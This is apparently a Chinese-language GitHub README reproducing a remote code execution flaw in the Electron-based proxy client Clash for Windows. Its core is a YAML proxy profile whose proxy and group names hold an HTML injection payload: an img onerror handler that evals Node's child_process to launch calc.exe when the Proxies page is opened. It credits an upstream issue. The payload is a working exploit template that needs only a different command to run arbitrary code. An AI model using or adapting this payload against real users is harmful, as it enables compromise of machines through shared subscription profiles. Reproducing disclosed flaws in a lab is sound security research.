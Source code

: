 # Clash_for_Windows-远程代码执行漏洞:漏洞利用poc,远程rce


Clash_for_Windows远程代码执行漏洞:

# 0x01:clash介绍



```
A Windows/macOS/Linux GUI based on Clash and Electron.
```

# 

# 0x02:漏洞复现



## 从以下链接下载Windows版本：



<div>

https://github.com/Fndroid/clash_for_windows_pkg/releases
</div>



## 在windows10虚拟机中打开Clash_for_Windows

# 0x03:poc

```
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

```

## 导入该poc：



import



### 在当前界面点击：



Proxies



# 此时弹出计算器，漏洞成功利用。



# 0x04:

###### 原作者pr链接：



<div>
https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 
</div>



里面包含了poc和复现方法。



本次本地复现来源于上述链接！




